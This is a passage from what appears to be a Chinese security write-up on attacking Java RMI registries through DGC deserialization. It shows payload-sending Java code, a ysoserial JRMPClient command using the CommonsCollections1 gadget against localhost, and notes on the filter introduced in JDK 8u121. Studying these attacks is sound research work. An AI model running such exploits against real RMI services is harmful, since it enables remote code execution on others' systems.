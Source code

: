 ```java
            objOut.writeLong(2); // DGC的固定读取格式
            objOut.writeInt(0);
            objOut.writeLong(0);
            objOut.writeShort(0);

            objOut.writeInt(1); // dirty
            objOut.writeLong(-669196253586618813L);
            
            objOut.writeObject(payloadObject);

            os.flush();
        }
        finally {
            if ( dos != null ) {
                dos.close();
            }
            if ( s != null ) {
                s.close();
            }
        }
    }
```

这里poc代码就不再给出，直接利用ysoserial进行攻击即可

##### 使用ysoserial进行攻击

```shell
java -cp ysoserial-all.jar ysoserial.exploit.JRMPClient 127.0.0.1 1099 CommonsCollections1 "calc.exe"
```

#### jdk8u121<=version<jdk8u141

如果启动register服务的jdk版本为8u121，我们仍然使用之前的poc进行攻击，发现攻击失败，而且返回的异常信息和之前也不同。

这是低于8u121时返回的异常，按照我们之前的分析，我们在异常抛出之前就完成了反序列化，不影响我们的攻击：

![image-20240815164554555](./images/image-20240815164554555.png)

这是8u121时返回的异常，RMI Registry侧输出了`ObjectInputFilter REJECTED: class sun.reflect.annotation.AnnotationInvocationHandler, array length: -1, nRefs: 6, depth: 2, bytes: 285, ex: n/a`
